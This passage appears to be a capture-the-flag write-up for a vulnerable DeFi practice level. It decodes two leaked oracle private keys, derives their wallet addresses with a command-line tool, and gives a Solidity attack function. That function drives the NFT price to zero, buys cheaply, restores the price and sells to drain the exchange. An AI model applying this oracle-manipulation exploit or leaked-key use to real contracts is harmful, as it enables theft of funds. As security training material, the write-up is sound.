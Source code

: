 These two hex strings are base64 representations of 32 bytes numbers ([here](https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')From_Base64('A-Za-z0-9%2B/%3D',true,false)&input=NGQgNDggNjggNmEgNGUgNmEgNjMgMzQgNWEgNTcgNTkgNzggNTkgNTcgNDUgMzAgNGUgNTQgNWEgNmIgNTkgNTQgNTkgMzEgNTkgN2EgNWEgNmQgNTkgN2EgNTUgMzQgNGUgNmEgNDYgNmIgNGUgNDQgNTEgMzQgNGYgNTQgNGEgNmEgNWEgNDcgNWEgNjggNTkgN2EgNDIgNmEgNGUgNmQgNGQgMzQgNTkgN2EgNDkgMzEgNGUgNmEgNDIgNjkgNWEgNmEgNDIgNmEgNGYgNTcgNWEgNjkgNTkgMzIgNTIgNjggNWEgNTQgNGEgNmQgNGUgNDQgNjMgN2EgNGUgNTcgNDUgMzU) and [here](https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')From_Base64('A-Za-z0-9%2B/%3D',true,false)&input=NGQgNDggNjcgNzkgNGQgNDQgNjcgNzkgNGUgNDQgNGEgNmEgNGUgNDQgNDIgNjggNTkgMzIgNTIgNmQgNTkgNTQgNmMgNmMgNWEgNDQgNjcgMzQgNGYgNTcgNTUgMzIgNGYgNDQgNTYgNmEgNGQgNmEgNGQgMzEgNGUgNDQgNjQgNjggNTkgMzIgNGEgNmMgNWEgNDQgNmMgNjkgNWEgNTcgNWEgNmEgNGUgNmEgNDEgN2EgNGUgN2EgNDYgNmMgNGYgNTQgNjcgMzMgNGUgNTcgNWEgNjkgNTkgMzIgNTEgMzMgNGQgN2EgNTkgN2EgNGUgNDQgNDIgNjkgNTkgNmEgNTEgMzQK))

```
0xc678ef1aa456da65c6fc5861d44892cdfac0c6c8c2560bf0c9fbcdae2f4735a9
0x208242c40acdfa9ed889e685c23547acbed9befc60371e9875fbcd736340bb48
```

We can verify that the private keys are the ones of two trusted sources:

```bash
cast wallet address --private-key 0xc678ef1aa456da65c6fc5861d44892cdfac0c6c8c2560bf0c9fbcdae2f4735a9
# 0xe92401A4d3af5E446d93D11EEc806b1462b39D15

cast wallet address --private-key 0x208242c40acdfa9ed889e685c23547acbed9befc60371e9875fbcd736340bb48
# 0x81A5D6E50C214044bE44cA0CB057fe119097850c

```

In other words, we can just `oracle.postPrice("DVNFT", 0);` for each of these sources, then being able to buy an NFT from the exchange for 1 wei.

Putting all together:

```solidity
function attack(Vm vm) public {
  // we got the private keys from the intercepted message
  // IRL we use a script with the given keys instead of `vm.startPrank()`
  vm.startPrank(0xe92401A4d3af5E446d93D11EEc806b1462b39D15);
  oracle.postPrice("DVNFT", 0);
  vm.stopPrank();

  vm.startPrank(0x81A5D6E50C214044bE44cA0CB057fe119097850c);
  oracle.postPrice("DVNFT", 0);
  vm.stopPrank();

  // this function will call onERC721Received() below
  exchange.buyOne{value: 1 wei}();

  // returning to the price it was, so we can drain the exchange
  vm.startPrank(0xe92401A4d3af5E446d93D11EEc806b1462b39D15);
  oracle.postPrice("DVNFT", 999000000000000000000);
  vm.stopPrank();

  vm.startPrank(0x81A5D6E50C214044bE44cA0CB057fe119097850c);
  oracle.postPrice("DVNFT", 999000000000000000000);
  vm.stopPrank();

  // let's sell this token
  token.approve(address(exchange), tokenId);
  exchange.sellOne(tokenId);

  // give the money to the player to beat the level
  (bool success,) = msg.sender.call{value: address(this).balance}("");
  success;
}
```
